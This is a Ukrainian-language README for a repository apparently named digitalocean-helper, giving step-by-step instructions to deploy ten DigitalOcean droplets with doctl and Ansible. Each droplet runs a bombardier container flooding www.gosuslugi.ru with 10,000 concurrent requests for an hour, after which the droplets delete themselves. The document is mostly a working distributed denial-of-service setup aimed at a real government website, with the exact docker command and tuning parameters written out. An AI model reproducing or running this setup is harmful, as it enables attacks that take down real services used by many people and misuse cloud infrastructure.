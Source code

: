 Інструкція з розгортання 10-ти дроплетів в хмарі digitalocean

1. Встановіть Linux у VirtualBox або LXC контейнер. https://www.youtube.com/watch?v=-hNMW1PMq4w (Дай Бог здоров'я тобі, Кірюха)
2. Зарееструйтеся в DigitalOcean https://www.websiteplanet.com/ru/blog/%D0%BA%D0%B0%D0%BA-%D0%B7%D0%B0%D1%80%D0%B5%D0%B3%D0%B8%D1%81%D1%82%D1%80%D0%B8%D1%80%D0%BE%D0%B2%D0%B0%D1%82%D1%8C-%D0%B0%D0%BA%D0%BA%D0%B0%D1%83%D0%BD%D1%82-%D0%BD%D0%B0-%D1%81%D0%B5%D1%80%D0%B2/
3. Створіть та додайте ssh-key https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-2
4. Встановіть та зареєструйте doctl (https://docs.digitalocean.com/reference/doctl/how-to/install/)
5. Встановіть git:   sudo yum install git
6. Встановіть ansible https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-on-rhel-centos-or-fedora
7. скопіюйте репозиторій git clone git@github.com:Pingva74/digitalocean-helper.git
8. надайте права виконання файлу do.ddos.sh як що їх немає: chmod 755 do.ddos.sh

За замовчанням ви можете створити 10 віртуальних машин вартістю $5 на місяць, цього досить.
Невеличке пояснення що ви створюєте, команда виглядає так:
doctl compute droplet create --region tor1 --image centos-7-x64 --size s-1vcpu-1gb --ssh-keys 30188579  zero0
Нас в ній цікавить --region tor1 - регіон в якому буде створений дроплет, перелік регіонів можна отримати так: doctl compute region list
отримаете приблизно такий перелік:
doctl compute region list
Slug    Name               Available
nyc1    New York 1         true
sfo1    San Francisco 1    false
nyc2    New York 2         false
ams2    Amsterdam 2        false
sgp1    Singapore 1        true
lon1    London 1           true
nyc3    New York 3         true
ams3    Amsterdam 3        true
fra1    Frankfurt 1        true
tor1    Toronto 1          true
sfo2    San Francisco 2    false
blr1    Bangalore 1        true
sfo3    San Francisco 3    true

--ssh-keys 30188579 - ключ доступу до дроплета, отримати перелік ключів можна так: doctl compute ssh-key list
отримаемо схожу відповідь:
doctl compute ssh-key list
ID          Name        FingerPrint
30245974    oracle      73:dd:87:ed:05:40:58:26:25:1d:7d:b2:b0:5f:ab:1e
30188579    home        44:10:69:cd:39:cd:ac:01:04:92:a0:78:37:77:29:9b
Нам треба вказати --ssh-keys <ID> Вашого ключа, вони індивідуальні.
zero0 - це ім'я дроплету.
крім того можемо відредагувати файл docker.yml
нас цікавить тільки рядок
shell: "docker run -ti --rm alpine/bombardier -c 10000 -d 3600s -l www.gosuslugi.ru"

де
-с 10000 - кількість одночасно надісланих запитів
-d 3600s - час життя контейнера в секундах (можливо міняти на свій розсуд)
-l www.gosuslugi.ru - сайт, який вам набрид.

Після завершення роботи контейнера, всі дроплети видаляться автоматично.
Користуйтеся з задоволенням, Слава Україні!
